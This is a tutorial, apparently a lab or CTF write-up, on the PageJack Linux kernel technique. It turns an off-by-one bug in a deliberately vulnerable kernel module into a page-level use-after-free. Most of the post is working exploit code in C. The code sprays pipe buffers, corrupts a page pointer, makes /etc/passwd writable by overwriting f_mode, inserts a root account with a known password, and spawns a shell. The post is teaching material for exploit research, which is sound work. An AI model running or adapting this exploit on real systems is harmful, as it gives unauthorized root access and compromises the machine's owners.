 ```yaml
---
title: Linux Kernel Exploitation - PageJack
date: 2025-05-03
categories: [Guide, Linux Kernel Exploitation]
tags: [linux, pwn]
---
```


In this post, I will explain PageJack, a universal and data-only exploitation technique that turns an off-by-one bug into a page UAF. Download the [handouts](https://github.com/r1ru/linux-kernel-exploitation/tree/main/pagejack) beforehand.

## Analysis
The vulnerable LKM provides two commands: `CMD_ALLOC` and `CMD_WRITE`. These commands are used to allocate and write to an object defined as follows:
```c
#define OBJ_SIZE    0x400

struct obj {
    char buf[OBJ_SIZE];
};
```

## Bugs
There is an obvious off-by-one bug in `obj_write`:
```c
static long obj_write(char *data, size_t size) {
    if (obj == NULL || size > OBJ_SIZE) {
        return -1;
    }
    if (copy_from_user(obj->buf, data, size) != 0) {
        return -1;
    }
    obj->buf[size] = '\0';
    return 0;
}
```

## PageJack
PageJack is a technique that turns an off-by-one bug into a page UAF. It targets the array of `struct pipe_buffer` allocated in `alloc_pipe_info`:
```c
// https://elixir.bootlin.com/linux/v6.13/source/fs/pipe.c#L815-L816
struct pipe_inode_info *alloc_pipe_info(void)
{
    struct pipe_inode_info *pipe;
    unsigned long pipe_bufs = PIPE_DEF_BUFFERS;
    ...
    pipe->bufs = kcalloc(pipe_bufs, sizeof(struct pipe_buffer),
                 GFP_KERNEL_ACCOUNT);
    ...
}
```
`struct pipe_buffer` has a pointer to a `struct page` as its first member:
```c
// https://elixir.bootlin.com/linux/v6.13/source/include/linux/pipe_fs_i.h#L26-L32
struct pipe_buffer {
    struct page *page;
    unsigned int offset, len;
    const struct pipe_buf_operations *ops;
    unsigned int flags;
    unsigned long private;
};
```
Since `sizeof(struct page)` is 0x40 bytes and we have an off-by-one primitive, we can overwrite the pointer with a 75% probability, redirecting it to a different page. Then, by closing the pipe, we can free a page that is still in use by another pipe, thereby triggering a page UAF.

PageJack is a very powerful technique that can bypass mitigations like CONFIG_CFI_CLANG and the upcoming [CONFIG_SLAB_VIRTUAL](https://github.com/thejh/linux/blob/slub-virtual/MITIGATION_README).

## Exploitation
First, we allocate the victim object near `struct pipe_buffer`:
```c
puts("[*] Spraying struct pipe_buffer");
int pipefds[NUM_PIPE_SPRAY][2];
for (int i = 0; i < NUM_PIPE_SPRAY / 2; i++) {
    assert(pipe(pipefds[i]) != -1);
}

puts("[*] Allocating a victim object from kmalloc-1k");
obj_alloc();

puts("[*] Spraying struct pipe_buffer");
for (int i = NUM_PIPE_SPRAY / 2; i < NUM_PIPE_SPRAY; i++) {
    assert(pipe(pipefds[i]) != -1);
}
```
Next, we write values to the allocated pipes. This step is necessary later on to identify the victim pipe:
```c
puts("[*] Writting to pipes to allocate pages");
for (int i = 0; i < NUM_PIPE_SPRAY; i++) {
    int val = 0xcafebabe + i;
    assert(write(pipefds[i][1], &val, sizeof(val)) != -1);
    assert(write(pipefds[i][1], "deadbeef", 8) != -1);
}
```
There are two reasons why we additionally write `"deadbeef"`. First, writing more than 4 bytes prevents the page from being freed when we later read 4 bytes. If we write only 4 bytes, the page will be freed in `pipe_read`:
```c

// https://elixir.bootlin.com/linux/v6.13/source/fs/pipe.c#L343-L344
static ssize_t
pipe_read(struct kiocb *iocb, struct iov_iter *to)
{
    ...
            if (!buf->len)
                tail = pipe_update_tail(pipe, buf, tail);
```
The second reason is to overwrite the `f_mode` member of `struct file` in the final step.
Since `pipe_write` writes from `offset + len`, and the offset of the `f_mode` member is 0xc, we adjust the write position:
```c
// https://elixir.bootlin.com/linux/v6.13/source/fs/pipe.c#L477-L485
static ssize_t
pipe_write(struct kiocb *iocb, struct iov_iter *from)
{
    ...
        int offset = buf->offset + buf->len;

        if ((buf->flags & PIPE_BUF_FLAG_CAN_MERGE) &&
            offset + chars <= PAGE_SIZE) {
            ret = pipe_buf_confirm(pipe, buf);
            if (ret)
                goto out;

            ret = copy_page_from_iter(buf->page, offset, chars, from);
```

![page](/assets/img/posts/2025-05-03-6/page.png)

Next, we perform the off-by-one write:
```c
puts("[*] Overwitting pipe->bufs[0].page");
char zero[0x400] = {};
obj_write(zero, 0x400);
```
Next, we identify the victim pipe by reading from the pipe and checking if the value differs from the one we wrote:
```c
puts("[*] Locating the victim pipe");
int victim_pipefd = -1;
int origin_pipefd = -1;
for (int i = 0; i < NUM_PIPE_SPRAY; i++) {
    int val;

    assert(read(pipefds[i][0], &val, 4) != -1);
    if (val != 0xcafebabe + i) {
        victim_pipefd = i;
        origin_pipefd = val - 0xcafebabe;
        printf("[+] Found: victim_pipefd = %d, origin_pipefd = %d\n", victim_pipefd, origin_pipefd);
        break;
    }
}
if (victim_pipefd == -1) {
    puts("[-] Failed to locate the victim pipe");
    exit(0);
}
```
Next, we close one of the pipes that shares the same pointer to the page:
```c
puts("[*] Closing the original pipe");
assert(close(pipefds[origin_pipefd][0]) != -1);
assert(close(pipefds[origin_pipefd][1]) != -1);
```
Next, we spray `struct file` objects for /etc/passwd to make the freed page be used as a filp slab:
```c
puts("[*] Spraying struct file of /etc/passwd");
int filefds[NUM_SPRAY_FILE];
for (int i = 0; i < NUM_SPRAY_FILE; i++) {
    filefds[i]= open("/etc/passwd", O_RDONLY);
    assert(filefds[i] != -1);
}
```
Finally, we use the victim pipe to overwrite the `f_mode` member, making /etc/passwd writable, and then overwrite it (`j9ep0CjBGivAnD5z6l5rr0` is MD5-encoded password with salt `deadbeef`)
```c
puts("[*] Overwitting f_mode");
int fake_f_mode = 0x84f801f;
assert(write(pipefds[victim_pipefd][1], &fake_f_mode, 4) != -1);

char payload[] = "root:$1$deadbeef$j9ep0CjBGivAnD5z6l5rr0:0:0:root:/root:/bin/sh\n";
printf("[*] Overwriting /etc/passwd with %s", payload);
for (int i = 0; i < NUM_SPRAY_FILE; i++) {
    if (write(filefds[i], payload, sizeof(payload)) != -1) {
        puts("[+] Success");
        puts("[+] You can now log in as root with the password: cafebabe");
        char *argv[] = {"/bin/sh", NULL};
        execve(argv[0], argv, NULL);
    }
}
```
By running this exploit, we can log in as a root user and see the flag:

![win](/assets/img/posts/2025-05-03-6/win.png)

> You can use other methods, for example, Dirty Pagetable or Dirty Pipe, to achieve privilege escalation. Try modifying the above exploit to use these instead.
{: .prompt-info }

## References
1. Zhiyun Qian, Jiayi Hu, Jinmeng Zhou, Qi Tang and Wenbo Shen. 2024. PageJack: A Powerful Exploit Technique With Page-Level UAF. https://i.blackhat.com/BH-US-24/Presentations/US24-Qian-PageJack-A-Powerful-Exploit-Technique-With-Page-Level-UAF-Thursday.pdf
2. arttnba3. 2023. 【CTF.0x08】D^ 3CTF2023 d3kcache: From null-byte cross-cache overflow to infinite arbitrary read & write. https://blog.arttnba3.cn/2023/05/02/CTF-0X08_D3CTF2023_D3KCACHE/